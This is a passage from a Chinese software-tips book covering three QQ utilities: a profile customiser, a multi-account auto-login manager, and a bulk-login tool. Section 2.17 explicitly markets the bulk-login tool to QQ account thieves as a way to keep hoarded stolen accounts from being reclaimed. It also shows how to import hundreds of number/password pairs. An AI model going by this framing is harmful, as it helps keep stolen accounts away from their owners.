




## 2.15 QQ资料个性修改器

想让自己的QQ变得超级无敌么？在“QQ技巧”中我已经为大家介绍了如何手动修改自己的QQ个人资料！使其变得个性无比！这回再给大家介绍一款专为广大Q友们开发的软件，非常实用，适合菜鸟使用，它就是——QQ资料个性修改器。

该程序非常小巧！我们双击运行“QQ资料个性修改器”，界面如图1。它可以修改性别以及生肖中的默认选项。这里要注意只能填一个汉字或者两个字母！首先在“QQ资料个性修改器”中填入你想要增加的选项，如图2。我填了“鱼”，先别急着马上点击“添加”，否则程序会弹出图3所示的对话框。

要求你先打开QQ个人设置，我们选择“QQ菜单”→“个人设置”→弹出QQ2005设置，然后点击“QQ资料个性修改器”中的添加按钮，出现修改成功的对话框，如图4。我们马上来看看QQ个人设置中的性别，还有生肖，看看是否多出了“鱼”这个字的选项，如图5、图6。

成功添加了，我们选择上新修改的性别，再点击应用，看看是否成功了，用另外一个QQ看看你修改好的这个QQ的个人资料，如图7。是不是已经变了？呵呵！还不赶快动手打造自己的个性资料！











## 2.16 QQ自动登录器

QQ自动登录器是一款方便你同时登录或切换多个QQ账号，而免去为每一个QQ号反复输入号码与密码的好工具，同时你还能通过QQ自动登录器方便管理你的多个QQ账号，它具备显示上次登录时间等实用功能，方便你注意即将过期收回的号码，并且有完全密码保护设计，完全保护了你珍爱的QQ号码，杜绝了各类盗QQ密码木马。

它是你管理多个QQ必不可少的好工具！双击后即可打开，界面图1所示。


我们先来设置QQ的路径，单击“设定”，在弹出的“选项”对话框中选中“QQ”，点“浏览”来设置QQ主程序（QQ.exe）所在目录，如图2。然后单击“确定”即可添加完成。

再点击主界面的“增加账号”来添加账号，为了方便管理你还可以为号码自定义名字，设置如图3。设置好后点击下面的“记录配置”即可在主界面中添加一个QQ号，并显示出最后登录时间。

双击该号码后会弹出“帐号属性”接着在要登录的帐号前面打上勾，点右侧的“启动帐号”来进行登录，如图4。

## 2.17 盗号一族新宠——QQ 群登录手

盗QQ号的朋友是不是都有很多的QQ号码呢？而腾讯对于三个月以上没有登录过的QQ账号都会回收，不想看着自己的靓号被一个一个回收的朋友是不是会花上一个下午的时候，一个一个登录号码来晒一晒呢？现在小鱼给大家介绍一款盗号一族不可缺少的工具QQ群登录手，它的官方网站是www.steven-studio.com，里面还有很多实用的小工具，大家可以登录下载最新版本，我这里介绍的版本是1.4.2.602。

- 新增功能
- 修改账号导入
- 修改主程序界面
- 增加自动搜索已安装的QQ
- 增加登录用户许可协议
- 增加关闭版本对话框
- 增加多用户（单用户切换）
- 增加密码提示
- 增加最后登录时间
- 修正账号修改时密码栏不动的重大错误

这是一款纯绿色的软件，双击即可运行，界面如图1所示，先来添加QQ主程序点击下面的“程序设定”进入“设置”页面，如图2。在上面的“QQ主程序地位”中选择QQ主程序所在目录，QQ群登快手完全支持珊瑚虫外挂与飘云版等民间QQ版本：如果你使用的是珊瑚虫qq外挂，请选择CoralQQ.exe程序，点击“浏览”即可设置，将下面的选项“允许添加号码相同的账号信息”选上，其他默认就可以了，点击“确定”设置就OK了！接下来就是添加QQ号码了，软件有两种添加方法。

大家可以根据需要来选择，如果你的QQ号码比较少可以在主界面中手动添加，单击主界面的“添加”，在弹出的对话框中输入相应的号码信息即可添加，其中“密码提示”你可以选择不填，如图3。

如果选中下面的“显示密码”，输入的密码就是以明文显示，这样你可以一个一个添加完成你的号码，可如果QQ号有上百个怎么办？我们可以采用软件的“导入”功能，首先新建一个文本文档，然后以下面的格式写入你要群登的QQ：[QQ号码][分隔符][密码][分隔符][密码提示]，分隔符可以是下划线或空格等任意符号。例如：720990/123456/小鱼QQ 密码提示可以不写，格式就是：QQ号/密码。

```
720990/123456
10058/5478941
```



图 2



图 3



图 4

注意每个QQ号码占一行！如果你的所有QQ密码一样的话，可以在第一行写码后写上密码然后以后的就不用写了，然后点击主界面的“导入”，如图4、图5。

点击“浏览”，选择刚刚的文本文件导入，下一步后会来到“选择分隔符”页面，这里根据你的分隔符来选，如果你用的是空格就选空格，如图6。在下一项的“确认密码”中根据需要设置，如图7。

然后下一步，如图8。建议选择第二项，在“登录方式”中根据需要选择是否隐身登录，如图9。

然后即可开始添加，成功后如图10。你的号码即可在主界面中显示，然后勾选相应号码点击主界面的“号码群登”即可全部登录，或者在要登录的号码上点击右键选择“启动号码”还可以把你经常登录的号码设置快捷方式，方便以后登录，如图11。








